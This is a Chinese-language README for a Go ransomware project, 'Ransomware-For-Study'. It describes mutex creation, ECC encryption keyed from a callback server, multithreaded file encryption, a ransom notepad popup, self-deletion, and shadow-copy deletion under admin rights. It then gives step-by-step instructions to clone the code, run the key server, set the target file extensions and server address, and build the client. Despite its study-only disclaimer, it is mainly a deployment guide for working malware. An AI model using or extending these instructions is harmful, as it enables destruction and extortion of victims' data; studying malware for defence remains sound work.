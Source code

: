 
# Ransomware-For-Study

项目描述：

这是一个用于学习目的的勒索软件基本项目框架，用来在网络安全领域对抗恶意软件时能更有思路，也为网络安全中恶意代码分析的初学者提供一个基础的勒索软件攻击流程。


注意：

    本项目仅供学习，严禁用于任何非法用途，违者与作者本人无关!

---

## 项目特点

1. 创建互斥体实现防止用户多次点击

2. 使用ecc加密，公钥和私钥单独保存，加密过程中只有公钥会被捕捉

3. 实现了多线程对多个文件同时加密

4. 实现了加密之后弹出记事本的功能

5. 加密之后自删除文件

---

**todo（未完成）：**

~~1. 删除系统卷影功能~~

    2. 替换桌面壁纸功能（已尝试过资源节，失败）

    3. 多种加密方式实现

    4. 多文件夹轮询

~~5. 公钥传输使用https~~

## 安装

**强调：**

本项目仅在windows操作系统下可用！

### 1. 下载项目

```bash
git clone https://github.com/CuteCuteYu/RansomwareFS
```

### 2. 初始化项目
```bash
cd  RansomwareFS
```

```bash
go mod tidy
```

### 3. 启动公钥发送的服务端

**建议：启动前将ssl证书替换成其他来源的**

替换地址：

`ssl-cert`文件夹

```bash
go run ./server.go ./handler.go
```

### 4. 配置选项

#### 4.1 加密的文件后缀名和加密线程设置

`./client/enc_file/enc_file.go`

```bash
const (
	FileExtension = ".exe"
	ThreadNumber  = 10 // Number of threads to use for encryption
)
```

#### 4.2 设置回连服务端来获得公钥的地址和端口

`./client/get_pub_key/get_pub_key.go`

```bash
const (
	ServerAddr = "localhost"
	ServerPort = "8080"
)
```

#### 4.3 设置互斥体名称

`./client/mutex/mutex.go`

```bash
mutexName := "Global\\mypkg_mutex"
```

### 5. 运行或者编译客户端

#### 5.1 直接运行

（以管理员身份运行即可使用删除卷影功能）

```bash
go run ./cmd/client/main.go
```

#### 5.2 编译
```bash
go build ./cmd/client/main.go
```